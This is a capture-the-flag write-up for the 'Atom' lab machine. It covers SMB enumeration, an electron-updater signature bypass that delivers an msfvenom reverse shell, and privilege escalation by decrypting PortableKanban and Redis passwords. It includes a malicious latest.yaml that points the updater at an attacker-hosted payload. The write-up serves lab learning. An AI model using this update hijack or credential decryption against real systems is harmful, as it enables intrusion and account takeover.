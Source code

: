 # Atom

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (22) (6).png" alt=""><figcaption></figcaption></figure>

There's a `redis` server running on the machine, and also WinRM for whatever reason. SMB Shares might be accessible on this server.

### SMB Shares

Using `smbmap`, there is one share that is readable even without credentials.

<figure><img src="../../../.gitbook/assets/image (45) (2).png" alt=""><figcaption></figcaption></figure>

The Software\_Updates one is new. We can connect to it and see what are the files present.

<figure><img src="../../../.gitbook/assets/image (46) (2).png" alt=""><figcaption></figcaption></figure>

The PDF contained some useful information:

<figure><img src="../../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>

We can place an update within this share's client folders, and then a user would run it. This is probably the way to gain a reverse shell.

### Electron

When checking the web portal, we see that it's a regular corporate website.

<figure><img src="../../../.gitbook/assets/image (56) (2).png" alt=""><figcaption></figcaption></figure>

There was a download button on the page, presumably to download the program used for this application. This would make us download a .exe file.

<figure><img src="../../../.gitbook/assets/image (25) (4).png" alt=""><figcaption></figcaption></figure>

We can actually open .exe files to find out what is within it.

<figure><img src="../../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

When viewing the plugins directory, we would find an app.7z file which we can open to reveal the resources.

<figure><img src="../../../.gitbook/assets/image (15) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can take a look at the resources file to view the source code and stuff, and there we find more hints that this is a Electron application.

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

We can dive further into the .asar file using `asar`.

<figure><img src="../../../.gitbook/assets/image (27) (2).png" alt=""><figcaption></figcaption></figure>

Within the main.js file, we can find that `electron-updater` was imported within this application.

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Signature Bypass

Searching for exploits for electron-updater led me to this website:

{% embed url="https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html" %}

In short, it's possible to bypass the signature checks that determine if an electron update is legitimate or not. This is done through altering the `latest.yaml` file. So, by bypassing this signature check, the updater would execute any malicious code we use.

This is in line with the information on the PDF we found earlier, telling us to place updates within the share for it to be executed. We can follow the PoC provided.

First, we can generate a quick reverse shell binary with `msfvenom`.

<figure><img src="../../../.gitbook/assets/image (33) (4).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to change the name of this binary to have an `'` character within it. I named mine `v'rev.exe`. Then, we need to take the sha512 hash of this file and base64 encode it.

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can create the `latest.yaml` file to have a custom HTTP path for the update with the hash value. Afterwards, we can host the binary on a Python HTTP server.

```yaml
version: 2.2.3
files:
  - url: http://10.10.16.9/r'ev.exe
    sha512: <hash value>
    size: 7168     
path: http://10.10.16.9/r'ev.exe
sha512: <hash value>
releaseDate: '2022-03-14T11:17:02.627Z'
```

Upon creation, we would need to put this YAML file within the client directory of the share we accessed earlier.&#x20;

<figure><img src="../../../.gitbook/assets/image (29) (3).png" alt=""><figcaption></figcaption></figure>

After a while, our HTTP server would get a hit and our listener port would catch a reverse shell.

<figure><img src="../../../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kanban Redis Creds

Within the user's Downloads folder, we can find a PortableKanban instance.

<figure><img src="../../../.gitbook/assets/image (55) (2).png" alt=""><figcaption></figcaption></figure>

Within the folder, we can find an encrypted password for the `redis` instance on the machine.

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Quick googling led me to an exploit, which allows for us to decrypt the passwords using DES.

{% embed url="https://www.exploit-db.com/exploits/49409" %}

I used CyberChef to decrypt the password using the key and IV extracted from the exploit.

<figure><img src="../../../.gitbook/assets/image (48) (2).png" alt=""><figcaption></figcaption></figure>

After finding this password, we can use `redis-cli` to login to the redis instance.

### Redis Creds

Logging in:

<figure><img src="../../../.gitbook/assets/image (44) (2).png" alt=""><figcaption></figcaption></figure>

We can check all the keys present on this machine:

<figure><img src="../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

The user key with some kind of GUID was the first I checked. We can do so with `get <name>`. This revealed another encrypted password for the Administrator.

<figure><img src="../../../.gitbook/assets/image (57) (3).png" alt=""><figcaption></figcaption></figure>

We can decrypt this using the same CyberChef configurations.

<figure><img src="../../../.gitbook/assets/image (43) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can use `evil-winrm` to log in as the administrator.

<figure><img src="../../../.gitbook/assets/image (7) (2) (2).png" alt=""><figcaption></figcaption></figure>

